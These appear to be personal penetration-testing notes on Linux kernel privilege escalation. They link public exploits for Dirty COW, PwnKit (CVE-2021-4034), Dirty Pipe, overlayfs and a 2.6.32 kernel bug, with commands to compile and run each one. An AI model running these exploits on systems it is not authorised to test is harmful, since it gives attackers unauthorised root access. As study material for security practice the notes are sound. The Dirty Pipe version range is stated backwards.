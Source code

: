 
# Find version

```
uname -a

hostnamectl

uname -r

cat /etc/lsb-release 
```

# dirty cow

https://github.com/firefart/dirtycow

Compile with:

```
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:

```
./dirty
```

now as kernel exploits often break shells, so if it's stuck then try to ssh as firefart user in this case with new password


# pkexec

https://github.com/ly4k/PwnKit

just download that PwnKit file (which is now in opt)

transfer that and change perm and **VOILA**!!

![[Pasted image 20240615123558.png]]

below both are in `/opt/linuxprivesc/pkexec`

https://github.com/arthepsy/CVE-2021-4034

```
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
```

```
./cve-2021-4034-poc
```

https://github.com/berdav/CVE-2021-4034

```
make
```

```
./cve-2021-4034
```
# dirty pipe
versions from 5.17 to 5.8

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

# 3.13.0 till 3.19

https://www.exploit-db.com/exploits/37292

'overlayfs' Local Privilege Escalation


# 2.6.32-21-generic

https://www.exploit-db.com/exploits/15285

just transfer and

```
gcc 15285.c -o exploit
chmod +x exploit
./exploit
```